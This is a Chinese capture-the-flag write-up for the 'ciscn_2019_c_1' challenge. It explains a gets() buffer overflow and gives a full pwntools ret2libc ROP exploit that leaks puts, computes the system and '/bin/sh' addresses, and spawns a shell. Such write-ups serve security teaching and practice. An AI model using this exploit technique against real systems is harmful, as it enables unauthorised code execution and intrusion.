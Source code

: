 ### ciscn_2019_c_1

例行检查

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1ghnh8hce3pj30pa06eaaa.jpg)

没有canary

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1ghnhc3k4mlj31070u0tba.jpg)

有gets函数，考虑直接rop

思路就是控制执行流通过puts泄露函数真实地址，然后返回start函数执行`system('/bin/sh')`

libcseacher找不到，只好到https://libc.blukat.me/网站找

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1ghnhg0o338j31ss0t8dhf.jpg)

ROPgadget找能用的gadget

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1ghni098b0vj31880k6q4c.jpg)

exp

```python
#!/usr/bin/env python2
# -*- coding: utf-8 -*-

from pwn import *
context.log_level='debug'

elf = ELF('./ciscn_2019_c_1')
p = process('./ciscn_2019_c_1')
#p = remote("node3.buuoj.cn", 27144)
gdb.attach(p,'b *0x400bb6\nb* 0x400AE7')

poprdi=0x400c83
puts=elf.plt['puts']
puts_got=elf.got['puts']
start = 0x400790

p.recv(0x217)
p.sendline('1')
p.recvuntil('\n')
payload = 'a'*80+'b'*8+p64(poprdi)+p64(puts_got)+p64(puts)
payload += p64(start)

p.sendline(payload)
print p.recvuntil('\n')
print p.recvuntil('\n')

puts=u64(p.recv(6).ljust(8,'\x00'))
print hex(puts)

ret = 0x4006b9
system_addr=puts-0x31550
bin_sh=puts+0x1336ca
payload = 'a'*88+p64(ret)+p64(poprdi)+p64(bin_sh)+p64(system_addr)
p.recv(0x217)
p.sendline('1')
p.recvuntil('\n')
p.sendline(payload)

p.interactive()
```
